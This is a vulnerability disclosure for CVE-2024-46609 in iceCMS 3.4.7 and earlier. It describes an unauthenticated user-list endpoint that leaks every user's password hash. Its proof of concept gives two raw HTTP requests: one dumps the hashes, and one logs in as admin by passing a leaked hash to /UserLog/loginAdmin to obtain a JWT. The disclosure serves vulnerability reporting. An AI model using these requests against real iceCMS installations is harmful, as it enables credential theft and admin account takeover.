 
**[CVE-ID]**
CVE-2024-46609

**[PRODUCT]**
icecms

**[Vendor of Product]**
https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**
icecms <=3.4.7

**[Vulnerability Type]**
Incorrect Access Control

**[Description]**
Unauthorized acquisition of all user passwords.
The vulnerability is in the CheckVip function in UserController.java. The route of this function is @GetMapping("/getUserList/{page}/{limit}"). This interface does not perform authentication processing, resulting in attackers being able to directly request this interface to obtain the information of all users, including passwords.
![pic0](/icecms/PIC/CVE-2024-46609-0.png)



## POC：

Use Burpsuite to send the login data packet as follows. 
Through this interface, encrypted passwords of all users can be obtained without authorization.
```
GET /User/getUserList/1/50 HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 2

```

![pic1](/icecms/PIC/CVE-2024-46609-1.png)


Then, the interface /UserLog/loginAdmin can be used to log in through the encrypted password, thereby obtaining the jwt authentication information of the user.
```
GET /UserLog/loginAdmin?username=admin&password=$argon2i$v=19$m=65536,t=3,p=1$Bd4DS8mtP2ZM3DInyCT/sg$pQixU/obFvmj9wZXu658pZ4G5epINkfdET17xx8X3R8 HTTP/1.1
Host: localhost:8181
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
Content-Type: application/x-www-form-urlencoded
sec-ch-ua-mobile: ?0
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwic3ViIjoiMyIsImV4cCI6MTcyNzA4MjY1MywianRpIjoiYWQ5NDQ5OTgtYTFmNy00YWZlLWI4N2MtNDQ2NGI0OTI4YTgzIn0.MrUf_EPqXasTngKjkdkXg9WOeso8yhMs1mGxrKnwYPc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://192.168.110.175:9528
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://192.168.110.175:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

![pic2](/icecms/PIC/CVE-2024-46609-2.png)

